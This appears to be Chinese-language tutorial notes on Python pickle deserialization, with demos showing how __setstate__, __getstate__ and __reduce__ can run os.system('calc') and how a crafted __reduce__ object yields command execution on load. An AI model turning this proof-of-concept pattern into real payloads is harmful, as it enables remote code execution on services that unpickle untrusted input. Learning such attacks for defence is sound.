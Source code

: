 ```plain
但是为什么print('反序列化调用')这个方法会执行呢？这个魔术方法__reduce__是有条件的，需要一个返回值。参考：https://www.cnblogs.com/angelyan/p/11079267.html
class SerializePerson():
    def __init__(self, name):
        self.name = name
    # 构造 __setstate__ 方法
    def __setstate__(self, name):
        os.system('calc')  # 恶意代码
tmp = pickle.dumps(SerializePerson('tom'))  #序列化
pickle.loads(tmp)  # 反序列化 此时会弹出计算器

执行弹出计算器，把pickle.loads(tmp)注释后，不会有任何反应。
```

\#序列化魔术方法调用-__getstate__

```plain
class A(object):
    def __getstate__(self):
        print('序列化调用')
        os.system('calc')
a = A()
p_a = pickle.dumps(a) //序列化
print('==========')
print(p_a)

弹出计算器，输出：
序列化调用
==========
b'\x80\x04\x95\x15\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01A\x94\x93\x94)\x81\x94.'
```

\#反序列化安全漏洞产生-DEMO

```plain
class A(object):
    def __init__(self, func, arg):
        self.func = func
        self.arg = arg
        print('This is A')
    def __reduce__(self):
        print('反序列化调用')
        return (self.func, self.arg)
a = A(os.system, ('calc',))
p_a = pickle.dumps(a)  //序列化
pickle.loads(p_a)      //反序列化
print('==========')
print(p_a)


传参：
self.func=os.system
self.arg=calc

弹出计算器，输出
This is A
反序列化调用
==========
b'\x80\x04\x95\x1c\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x04calc\x94\x85\x94R\x94.'

如果把calc改为ipconfig，那么就会打印ipconfig的结果。
```
